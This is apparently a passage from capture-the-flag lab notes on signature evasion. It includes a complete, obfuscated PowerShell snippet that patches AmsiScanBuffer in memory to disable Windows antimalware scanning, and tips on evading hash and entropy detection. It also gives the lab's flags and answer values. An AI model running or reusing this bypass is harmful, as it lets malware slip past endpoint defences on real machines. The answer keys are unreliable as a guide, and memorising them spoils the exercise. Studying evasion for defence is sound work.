 * Obfuscated snippet:

```ps
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -Namespace 'Win32' -PassThru;
$A = "Am" + "siSc" + "anBuf" + "fer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);

$buf = New-Object byte[] 6;
$buf[0] = [UInt32]0xB8;
$buf[1] = [UInt32]0x57;
$buf[2] = [UInt32]0x00;
$buf[3] = [UInt32]0x07;
$buf[4] = [UInt32]0x80;
$buf[5] = [UInt32]0xC3;

$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [UInt32]0x07, [UInt32]0x80, [UInt32]0xC3);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $BufferAddress, 6);
```

```markdown
1. What flag is found after uploading a properly obfuscated snippet? - THM{70_D373C7_0r_70_N07_D373C7}
```

## Static Property-Based Signatures

* File Hashes - if we have access to source of an application, we can modify arbitrary sections of code and re-compile it to create a new hash; when dealing with a signed or closed-source app, we must employ bit-flipping.

* Entropy - randomness of data in file used to determine whether file contains hidden data or suspicious scripts; to lower entropy we can replace random identifiers with random English words.

```markdown
1. Rounded to three decimal places, what is the Shannon entropy of the file? - 6.354
```
